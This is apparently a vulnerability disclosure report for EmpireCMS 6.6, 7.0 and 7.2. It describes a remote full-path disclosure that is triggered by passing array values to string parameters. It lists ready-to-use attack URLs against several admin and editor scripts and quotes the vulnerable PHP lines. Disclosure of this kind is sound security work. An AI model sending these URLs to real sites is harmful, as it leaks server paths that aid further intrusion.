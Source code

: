> FileMain.php , ShowPic.phpe , connect.php ,htmlspecialchars() expects parameter 1 to be string, Web site physical path leakage
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Information Disclosure]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> The vulnerability can be triggered by directly accessing the URL below:
> EmpireCMS 6.6 :
> http://domain/e/admin/tool/ShowPic.php?url[]=kongxin&pic_height[]=kongxin&pic_width[]=kongxin&picurl[]=kongxin&
> http://domain/e/action/ListInfo.php?totalnum[]=kongxin&page[]=kongxin&myorder[]=kongxin&orderby[]=kongxin&andor[]=kongxin&ph[]=kongxin&tempid[]=kongxin&line[]=kongxin&endtime[]=kongxin&starttime[]=kongxin&ztid[]=kongxin&ttid[]=kongxin&classid[]=kongxin&mid[]=kongxin&
>
> EmpireCMS 7.0 :
> http://domain/e/admin/ecmseditor/infoeditor/epage/TranMore.php?InstanceName[]=kongxin&sinfo[]=kongxin&modtype[]=kongxin&infoid[]=kongxin&filepass[]=kongxin&classid[]=kongxin&showmod[]=kongxin&
>
> EmpireCMS 7.2 :
> http://domain/e/data/ecmseditor/infoeditor/epage/TranFile.php?filesize[]=kongxin&fname[]=kongxin&InstanceName[]=kongxin&filepass[]=kongxin&classid[]=kongxin&type[]=kongxin&showmod[]=kongxin&
>
> ------------------------------------------
>
> [Discoverer]
> kongxin


> [Suggested description]
> EmpireCMS 6.6 allows remote attackers to discover the full path via an array value for a parameter to admin/tool/ShowPic.php.
>
> ------------------------------------------
>
> [Additional Information]
> Location:
> EmpireCMS 6.6 : /e/admin/tool/ShowPic.php
>                          /e/class/connect.php
>
> EmpireCMS 7.0 : /e/class/connect.php
>
> EmpireCMS 7.2 : /e/class/connect.php
>
> Code:
> EmpireCMS 6.6 :
> $picurl=htmlspecialchars($_GET['picurl']);
> $pic_width=htmlspecialchars($_GET['pic_width']);
> $pic_height=htmlspecialchars($_GET['pic_height']);
> $url=htmlspecialchars($_GET['url']);
>
> Rows:4
> Rows:5
> Rows:6
> Rows:7